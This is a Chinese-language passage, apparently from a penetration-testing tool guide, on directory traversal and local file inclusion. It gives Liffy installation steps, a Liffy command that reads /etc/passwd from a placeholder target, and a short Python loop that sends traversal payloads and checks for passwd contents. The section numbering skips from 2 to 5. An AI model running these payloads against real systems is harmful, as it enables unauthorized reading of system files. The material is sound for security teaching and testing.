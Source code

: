 ```
```


[1]  http://dotdotpwn.blogspot.ca/ 

[2]  http://git.kali.org/gitweb/?p=packages/dotdotpwn.git;a=summary 





### **2. Liffy**  
• **定位**：自动化本地文件包含（LFI）和目录遍历利用工具。  
• **功能**：  
  • 检测漏洞后，自动尝试读取文件、列出目录、执行命令（需环境支持）。  
  • 支持编码绕过（如 `%2e%2e%2f`）。  
• **安装**：  

- 克隆存储库`python3`
  - `git clone http://github.com/mzfr/liffy`

- 创建虚拟环境
  - `python3 -m venv <name-of-virtual-env>`
  前任：`python3 -m venv liffy`

- 激活 venv
  - `source liffy/bin/activate`

- 安装依赖项
  - `pip3 install -r requirements.txt`

**注意**- liffy 使用 msfvenom 生成 php payload，因此你应该安装 metasploit

  ```bash
  git clone https://github.com/mzfr/liffy.git  
  cd liffy  
  pip install -r requirements.txt  
  ```
• **使用命令**：  
  ```bash
  python liffy.py -u "http://目标URL/vuln.php?file=PAYLOAD" --read /etc/passwd
  ```

### 5. PathTraverser（Python 脚本）  
• **定位**：轻量级自动化路径遍历检测与利用工具。  
• **代码示例**：  

  ```python
  import requests

  target_url = "http://目标URL/vuln.php?file="
  payloads = ["../../etc/passwd", "../etc/passwd", "....//etc/passwd"]

  for payload in payloads:
      response = requests.get(target_url + payload)
      if "root:x:0" in response.text:
          print(f"[+] 漏洞存在！已读取文件：{payload}")
          break
  ```
• **扩展**：可集成多线程和编码绕过（如 URL 编码、双重编码）。
